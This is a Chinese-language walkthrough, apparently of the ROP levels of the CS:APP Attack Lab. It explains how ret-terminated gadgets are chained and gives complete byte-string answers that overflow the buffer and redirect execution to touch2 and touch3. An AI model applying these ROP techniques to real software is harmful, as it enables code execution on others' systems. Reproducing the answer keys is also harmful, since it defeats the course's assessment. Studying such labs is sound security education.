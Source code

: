   - 一段程序中的代码，其中的一部分与某条指令相同，并以0xc3(ret instruction)结尾。

  > 0x10: 11 22 33 48 89 c7
  >
  > 0x16: c3
  >
  > 从0x13开始是48 89 c7， 即movq    %rax, %rdi

  - 将多个gadget的地址连续存在栈中，可以使其顺序执行(每次ret都会进入下一个gadget，连续地址即可)
  - 这样就没有执行任何栈中的内容，只是读取其地址并跳转，从而规避nonexecuting(ret都在gadget中)

- 这题要利用gadget，可用的gadget都在farm.c中，Figure3给出了辨认gadget的方法。注意farm.c中有些函数中并没有可辨认的gadget。

- 答案如下

  ```assembly
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00	#惯例，填充40字节
  ab 19 40 00 00 00 00 00	#gadget popq %rax, addval_219和getval_480都可以
  fa 97 b9 59 00 00 00 00	#cookie, to be popped into rax
  a2 19 40 00 00 00 00 00	#gadget %rdi = %rax, setval_426和addval_273都可以
  ec 17 40 00 00 00 00 00	#enter touch2
  ```

  

<span id = "r2">[level2](#c)</span>

- Figure中对应的gadget在最下方
- 由于栈随机化，我们没有办法得到所需字符串的具体地址，因此考虑使用相对寻址，其中bias需要使用popq rax获得(唯一获得任意常数的可用指令)，然后使用add_xy，因此还要使rdi = rsp，rsi = bias
- bias的值在其余指令编写完后计算得到，为0x48

- 答案如下

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00	#填充buffer
ad 1a 40 00 00 00 00 00	#rax = rsp
c5 19 40 00 00 00 00 00	#rdi = rax, 因为上行ret至0x401aad, 因此rsp在该行起始处, 即rdi的值(基地址)
ab 19 40 00 00 00 00 00	#popq rax, rax = bias
48 00 00 00 00 00 00 00	#bias
dd 19 40 00 00 00 00 00	#edx = eax
69 1a 40 00 00 00 00 00	#ecx = edx
13 1a 40 00 00 00 00 00	#esi = ecx
d6 19 40 00 00 00 00 00	#rax = rdi + rsi
c5 19 40 00 00 00 00 00	#rdi = rax
fa 18 40 00 00 00 00 00	#enter touch3
35 39 62 39 39 37 66 61	#cookie, 9行共72 bytes, 因此bias为0x48
00 00 00 00 00 00 00 00	
```

